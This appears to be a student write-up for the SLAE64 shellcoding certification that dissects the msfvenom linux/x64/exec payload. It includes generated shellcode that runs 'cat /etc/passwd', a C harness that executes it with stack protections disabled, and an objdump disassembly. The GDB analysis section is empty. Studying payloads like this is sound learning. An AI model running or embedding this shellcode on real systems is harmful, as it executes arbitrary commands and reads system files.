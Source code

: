 ## Assignment #5.1: Shellcode `linux/x64/exec` Dissection
---
---
### Introduction
---
The first `msfvenom` shellcode that is going to be dessected in functionality is the `linux/x64/exec` payload.

Let's see it's options:
```bash
SLAE64>  msfvenom -p linux/x64/exec --list-options
Options for payload/linux/x64/exec:
=========================

       Name: Linux Execute Command
     Module: payload/linux/x64/exec
   Platform: Linux
       Arch: x64
Needs Admin: No
 Total size: 40
       Rank: Normal

Provided by:
    ricky

Basic options:
Name  Current Setting  Required  Description
----  ---------------  --------  -----------
CMD                    yes       The command string to execute

Description:
  Execute an arbitrary command
  
**_REMOVED THE REST_**
```
The payload is only 40 bytes, and it requires a parameter in the `CMD` option that's the command to execute.

### Creating the Shellcode
---
The comand to execute in the payload is `cat /etc/passwd`. Let's generate the payload:
```bash
SLAE64> msfvenom -p linux/x64/exec CMD="cat /etc/passwd" -f c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 55 bytes
Final size of c file: 256 bytes
unsigned char buf[] = 
"\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53"
"\x48\x89\xe7\x68\x2d\x63\x00\x00\x48\x89\xe6\x52\xe8\x10\x00"
"\x00\x00\x63\x61\x74\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73"
"\x77\x64\x00\x56\x57\x48\x89\xe6\x0f\x05";
```
The generated shellcode is a total of 55 bytes in size.

### Run Shellcode. The C Template
---
To run the shellcode, will use of the `shellcode.c` template renamoed to `Payload_01.c`. The shellcode is placed in the `code[]` string:
```c
#include <stdio.h>
#include <string.h>

unsigned char code[]= \
"\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53"
"\x48\x89\xe7\x68\x2d\x63\x00\x00\x48\x89\xe6\x52\xe8\x10\x00"
"\x00\x00\x63\x61\x74\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73"
"\x77\x64\x00\x56\x57\x48\x89\xe6\x0f\x05";

void main()
{
        printf("ShellCode Lenght: %d\n", strlen(code));
        int (*ret)() = (int(*)())code;
        ret();
}
```
Now it can be compiled:
```bash
gcc -fno-stack-protector -z execstack Payload_01.c -o Payload_01
```
When it's run, it shows the contents of `/etc/passwd` file:

<img src="https://galminyana.github.io/img/A051_Shellcode_Run.png" width="75%" height="75%">

### `objdump`: First Approach
---
Once we get the executable, will use `objdump` to disassemble the ASM code. As `objdump` will disassemble the code by sections, the one of interest is the `<code>` section that is the one containing the shellcode:
```bash
SLAE64> objdump -M intel -D Payload_01

**_REMOVED_**

0000000000004060 <code>:
    4060:	6a 3b                	push   0x3b
    4062:	58                   	pop    rax
    4063:	99                   	cdq    
    4064:	48 bb 2f 62 69 6e 2f 	movabs rbx,0x68732f6e69622f
    406b:	73 68 00 
    406e:	53                   	push   rbx
    406f:	48 89 e7             	mov    rdi,rsp
    4072:	68 2d 63 00 00       	push   0x632d
    4077:	48 89 e6             	mov    rsi,rsp
    407a:	52                   	push   rdx
    407b:	e8 10 00 00 00       	call   4090 <code+0x30>
    4080:	63 61 74             	movsxd esp,DWORD PTR [rcx+0x74]
    4083:	20 2f                	and    BYTE PTR [rdi],ch
    4085:	65 74 63             	gs je  40eb <_end+0x4b>
    4088:	2f                   	(bad)  
    4089:	70 61                	jo     40ec <_end+0x4c>
    408b:	73 73                	jae    4100 <_end+0x60>
    408d:	77 64                	ja     40f3 <_end+0x53>
    408f:	00 56 57             	add    BYTE PTR [rsi+0x57],dl
    4092:	48 89 e6             	mov    rsi,rsp
    4095:	0f 05                	syscall 
	...

**_REMOVED_**

SLAE64> 
```

This disassembled code can be taken from GDB, and must be the same:

<img src="https://galminyana.github.io/img/A051_Shellcode_gdb_01.png" width="75%" height="75%">

### The Fun: GDB Analysis
---




















### GitHub Repo Files
---
The [GitHub Repo](https://github.com/galminyana/SLAE64/tree/main/Assignment05) for this assignment contains the following files:

- [Payload_01.c](https://github.com/galminyana/SLAE64/blob/main/Assignment05/Payload_01.c) : The C file cloned from `shellcode.c` to execute the `linux/x64/exec` shellcode
- [Payload_02.c](https://github.com/galminyana/SLAE64/blob/main/Assignment05/Payload_02.c) : The C file cloned from `shellcode.c` to execute the shellcode
- [Payload_03.c](https://github.com/galminyana/SLAE64/blob/main/Assignment05/Payload_03.c) : The C file cloned from `shellcode.c` to execute the shellcode

### The End
---
This pages have been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](http://www.securitytube-training.com/online-courses/x8664-assembly-and-shellcoding-on-linux/index.html).

Student ID: PA-14628
 
